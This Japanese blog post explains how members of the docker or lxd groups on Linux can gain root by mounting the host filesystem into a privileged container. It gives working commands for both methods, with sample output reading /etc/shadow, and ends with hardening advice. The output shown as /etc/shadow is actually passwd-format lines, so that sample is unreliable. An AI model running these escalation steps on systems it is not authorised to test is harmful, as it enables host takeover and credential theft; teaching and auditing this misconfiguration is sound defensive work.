 ```yaml
---
layout:        post
title:         "Dockerを使った権限昇格"
date:          2021-05-23
category:      Security
cover:         /assets/cover1.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
syntaxhighlight: true
# sitemap: false
# feed:    false
---
```


sudoを実行できないユーザでも、dockerグループに所属していれば、Dockerを使うことで権限昇格ができるようになります。

### Docker

Dockerを使ったやりかた：

```bash
docker run --privileged -v /:/mnt/root --rm -it debian
```

- `--priviledged` はコンテナ内のプロセスをルート権限で起動するためのオプションです。
- `-v <from>:<to>` はホストOSのディレクトリを、コンテナ内にマウントします。ホストOSのルートディレクトリをマウントすることで、ホストのファイルシステム全体にアクセスできるようになります。

上記のコマンドを実行すると、ルート権限でファイルシステム全体にアクセスできます。

実行結果：

```console
$ docker run --privileged -v /:/mnt/root --rm -it debian
root:/# id
uid=0(root) gid=0(root) groups=0(root)

root:/# cat /mnt/root/etc/shadow
root:x:0:0:root:/root:/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...省略...
```

### LXD

同様に、Linux上でコンテナを扱う LXD でも同じことができます。
sudoを実行できないユーザでも、lxdグループに所属していれば、LXDを使うことで権限昇格ができます。

LXDを使ったやりかた：

```bash
# alpineイメージのビルド
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
# 管理者権限付きで初期化
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias rootimage
lxc init rootimage ignite -c security.privileged=true
# ホストOSのルートディレクトリをコンテナにマウント
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
# コンテナの起動
lxc start ignite
lxc exec ignite /bin/sh
```

実行結果：

```console
~ # id
id
uid=0(root) gid=0(root)

~ # cd /mnt/root/etc/shadow
root:/# cat /mnt/root/etc/shadow
root:x:0:0:root:/root:/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...省略...
```

`cat /etc/group` で docker や lxd グループが存在して、そのグループに所属しているユーザがいる場合は、権限昇格ができる可能性があるので注意が必要です。
不要なユーザであればグループから外したり、ユーザをロックしたり (`usermod -L`)、ログインパスワードをより強力なものに変更するなどしましょう。


### 参考文献

- [docker \| GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
- Hack The Box - Included
